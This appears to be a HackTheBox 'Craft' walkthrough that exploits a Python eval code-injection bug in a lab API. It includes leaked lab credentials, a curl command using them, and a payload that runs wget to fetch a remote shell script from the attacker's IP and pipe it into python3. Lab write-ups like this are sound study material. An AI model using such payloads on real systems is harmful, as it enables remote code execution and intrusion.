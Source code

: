    There are only 6 commits, and one commit has the message "Cleanup test", right after a commit adding a test script. The commit removed the following line containing hard-coded credentials:
   > response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
   
   Credentials:
   > **dinesh**:**4aUh0A8PbVJxgd**

   The creds are valid for Gogs and the API. The API uses basic authentication to get a token, so the credentials can be validated with the following command:
   ```bash
   curl -X GET https://api.craft.htb/api/auth/login  \
   -H  "accept: application/json" -u dinesh:4aUh0A8PbVJxgd -k
   ```

   Now there is a large attack surface between Gogs and the API. The source code on Gogs is the best way to understand the API, so I start there.

   Note: tested for CVE-2018-20303 [using gogsownz.py](https://github.com/TheZ3ro/gogsownz) but the site said it detected a malicious path. 

   Browsing "issues" shows a problem with the function creating a new brew. It was hastily fixed and is vulnerable to code injection b/c of it's use of python's "eval" function.

# **Initial Exploit**

The vulnerable code is found in the API's *brew* endpoint, which allows users to create a new brew via a POST request.
The vulnerable snippet:
```python
if eval('%s > 1' % request.json['abv']):
    return "ABV must be a decimal value less than 1.0", 400
else:
    create_brew(request.json)
    return None, 201
```

[I explain the exploitation of Python's eval function in greater in depth later](#python-eval-injection), but this section should provide enough info to replicate the attack.

Exploitation requires authenticating to the API, then sending a malicious payload in the 'abv' value:
> __import__("os").system("wget -q -O- http://10.10.14.28/shell.py | python3")

The payload is sent in json via a POST to *https://api.craft.htb/api/brew*. An example payload:
```js
{
    "id": 4222,
    "brewer": "Stewy Brewy",
    "name": "SplashTown Heckahol",
    "style": "YPA",
    "abv": '__import__("os").system("wget -q -O- http://10.10.14.28/shell.py | python3 &")' 
}
```

This command imports the *os* module (which is not imported to brew.py), then calls wget (curl isn't available) to download a [simple python3 shell](#shellpy), outputting to stdout, which is piped into python3. I like this method more than downloading a shell and executing it, because it doesn't require any file writes, and is probably better opsec.


[1]: https://www.vaultproject.io/ "Vault by HashiCorp"
[2]: https://gogs.io/ "Gogs is a self-hosted Git service"
[3]: https://www.hackthebox.eu/home/machines/profile/197 "HackTheBox: Craft"
[4]: https://docs.python.org/3/library/functions.html?highlight=eval#eval "Python3 eval function"
[5]: https://docs.python.org/3/library/os.html?highlight=os#module-os "Python3 os.system"
[6]: https://docs.python.org/3/reference/simple_stmts.html#import "Python3 Import statement"
[7]: https://docs.python.org/3/library/functions.html#__import__ "Python3 __import__ function"